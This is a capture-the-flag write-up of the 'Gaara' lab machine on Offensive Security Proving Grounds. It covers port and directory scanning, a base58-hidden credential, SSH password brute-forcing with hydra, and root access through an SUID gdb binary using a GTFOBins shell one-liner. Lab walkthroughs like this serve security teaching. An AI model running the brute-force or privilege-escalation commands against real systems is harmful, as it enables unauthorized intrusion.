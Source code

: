 # Gaara
**Date:** May 20th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/gaara0.png)

<br>

## Objectives
- user.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.107.142`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.107.142 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 137]
/Cryoserver           (Status: 200) [Size: 327]
```

<br>

## Website Digging

Visiting the main page:

![](images/gaara1.png)

Checking out **/Cryoserver** shows us what appears to be a blank page with nothing on it, but if you scroll down you'll see some text. You can also find this by **inspecting the page**:

![](images/gaara2.png)

**/Temari** explains the Gaara character with a page full of text:

![](images/gaara3.png)

**/Kazekage** and **/iamGaara** show the same thing, though on **iamGaara** it's slightly different with some spaces removed and other minor formatting changes.

I ran additional **gobuster** scans against all 3 of these locations and did not find anything new.

Not having much else to go on I decide to read the giant wall of text on the webpage starting with **/iamGaara** since it was slightly different from the other two. I eventually find this hidden in the text:

```
enraged Gaara f1MgN9mTf9SNbzRygcU into breaking Lee's arm and leg
```

Everything else are actual words so let's take a closer look at this string of characters. I run it through **cyberchef** and use the **magic formula**, which doesn't decode anything. I try some of the other basexx that the magic formula didn't try and it turns out to be **base58**:

```
gaara:ismyname
```

Looks like a username and password combo. I try and **SSH** over but the credentials did not work, so I guess we'll try brute forcing at this point. It finds the password for us after a couple of minutes:

`hydra -l gaara -P rockyou.txt 192.168.107.142 ssh`

```
[22][ssh] host: 192.168.107.142   login: gaara   password: <REDACTED>
```

<br>

## System Access

Having found the actual password I SSH over:

`ssh gaara@192.168.107.142`

```
gaara@192.168.107.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$
```

<br>

## System Enumeration

Waiting for us in our home directory is a file called **local.txt** that gives us our first flag:

`wc -c local.txt`

```
33 local.txt
```

`sudo -l` doesn't allow us to run anything as root.

Looking in **/etc/passwd** shows us that the only user with a shell other than root is the one we're already on:

```
gaara:x:1001:1001:,,,:/home/gaara:/bin/bash
```

<br>

## Root

`find / -perm /4000 2>/dev/null` shows us that the **gdb** command has an **SUID** bit set on it, which is out of place. Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/gdb/#suid) shows us we can run the following to get root:

![](images/gaara4.png)

Running the command:

`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`

```
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
# hostname
Gaara
```

Changing over to **/root** shows us our final flag **proof.txt**:

`wc -c /root/proof.txt`

```
33 proof.txt
```

<br>

With that we've completed this CTF!

![](images/gaara5.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Manual investigation of a website to find **hidden base58 encoded text**
- **Decoding that hidden text** and finding a username on the system
- Searching for **SUID** files and seeing that **gdb** has it set, which allowed us to obtain **root**

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
